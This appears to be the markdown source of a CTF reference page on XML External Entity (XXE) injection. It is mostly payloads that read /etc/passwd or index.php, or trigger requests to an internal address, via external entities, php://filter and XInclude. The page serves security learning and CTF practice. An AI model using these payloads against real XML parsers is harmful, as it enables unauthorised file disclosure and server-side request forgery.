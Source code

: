 ```yaml
---
title: "XML External Entity (XXE)"
description: "Inject malicious XML entities to read internal files or trigger server requests in XML parsers."
date: 2025-10-06
draft: false
categories: ["Web"]
tags: ["xxe", "xml", "injection", "local file inclusion", "ctf"]
authors: ["CTF.Support Team"]
summary: "Abuse XML parsers that process untrusted input to retrieve files or make out-of-band requests."
aliases: ["/web/xxe/"]
slug: "xxe"
toc: true
---
```


## Introduction

An **XXE (XML External Entity)** vulnerability arises when a server-side XML parser processes external entities.  
Attackers can read local files or cause SSRF requests from the target server.

## Detection Payload

``` xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

## Retreive files

### Classic XXE

``` xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

---

``` xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

---

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

### Classic XXE Base64 encoded

``` xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP Wrapper inside XXE

``` xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

---

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

### XInclude attacks

``` xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
